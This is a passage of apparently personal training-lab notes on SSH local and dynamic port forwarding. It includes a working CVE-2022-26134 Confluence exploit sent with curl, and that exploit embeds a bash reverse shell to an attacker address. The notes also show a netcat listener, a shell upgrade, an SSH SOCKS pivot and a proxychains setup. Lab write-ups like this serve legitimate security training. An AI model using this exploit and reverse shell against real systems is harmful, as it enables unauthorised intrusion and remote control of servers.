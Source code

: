 - In new Kali tab, get flag
```bash
# Read through client_source.zip files.  Notice they're in Ruby
# Attempt ssh through executing ssh_local_client
chmod +x ssh_local_client

./ssh_local_client -i 192.168.233.63 -p 4242
	Connecting to 192.168.233.63:4242
	Flag: "OS{0ccdf0d584981c5fd0061c873fc7be2d}"
```

## Local Dynamic

1. Follow this walkthrough, and scan HRSHARES from the Kali machine using Nmap and Proxychains. What port between 4800 and 4900 is open?

> Extremely similar to SSH Local Port Forwarding above

- Start by exploiting Confluence Server with CVE-2022-26134 exploit and upgrade TTY
```bash
# Tab 1 - nc listener
nc -nlvp 1270

# Tab 2 - exploit
curl -v http://192.168.233.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.154/1270%200%3E%261%27%29.start%28%29%22%29%7D/

# Tab 1 - CONFLUENCE01 revshell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

- Setup Dynamic Port Forward on CONFLUENCE01
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.233.215
	<$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.233.215   
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '10.4.233.215 (10.4.233.215)' can''t be established.
	ECDSA key fingerprint is SHA256:K9x2nuKxQIb/YJtyN/YmDBVQ8Kyky7tEqieIyt1ytH4.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	database_admin@10.4.233.215''s password:
```

- On Kali, edit config file of Proxychains
```bash
vim /etc/proxychains4
	...
		[ProxyList]
	# add proxy here ...
	# meanwile
	# defaults set to "tor"
	socks5 192.168.233.63 9999
```
